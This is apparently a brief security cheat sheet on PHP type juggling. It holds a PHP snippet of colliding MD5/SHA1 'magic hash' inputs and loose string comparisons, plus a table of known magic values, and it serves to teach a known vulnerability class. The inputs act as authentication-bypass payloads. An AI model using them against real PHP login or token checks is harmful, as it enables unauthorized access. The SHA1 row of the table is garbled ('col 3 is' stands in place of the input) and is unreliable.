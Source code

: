 # PHP Juggling type and magic hashes	

## Exploit

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO'));
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
var_dump('0010e2'         == '1e3');
var_dump('0x1234Ab'       == '1193131');
var_dump('0xABCdef'       == '     0xABCdef');
?>
```


| Hash | “Magic” Number / String    | Magic Hash                                    | Found By      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD5  | 240610708                  | 0e462097431906509019562988736854              | Michal Spacek |
| SHA1 | col 3 is                   | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |


## Thanks to
* http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html
* https://www.whitehatsec.com/blog/magic-hashes/